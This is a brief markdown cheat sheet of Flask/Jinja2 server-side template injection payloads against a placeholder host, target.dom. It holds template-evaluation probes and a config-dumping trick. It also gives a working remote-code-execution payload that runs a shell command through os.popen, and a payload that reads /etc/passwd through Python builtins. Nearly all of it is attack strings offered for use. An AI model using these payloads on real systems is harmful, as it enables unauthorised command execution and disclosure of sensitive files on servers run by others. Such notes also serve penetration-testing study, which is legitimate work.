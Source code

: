 # Flask Server Side Template Injection

## temp notes

[http://target.dom/{{1+1}](http://target.dom/%7B%7B1+1%7D)}
[http://target.dom/{{config.items()}](http://target.dom/%7B%7Bconfig.items()%7D)}

add os vars
[http://target.dom/{{config.from_object('os')}](http://target.dom/%7B%7Bconfig.from_object('os')%7D)}
[http://target.dom/{{config.items()}](http://target.dom/%7B%7Bconfig.items()%7D)}

[https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee)

- remote code execution
`{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}`
- read remote file
`{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}`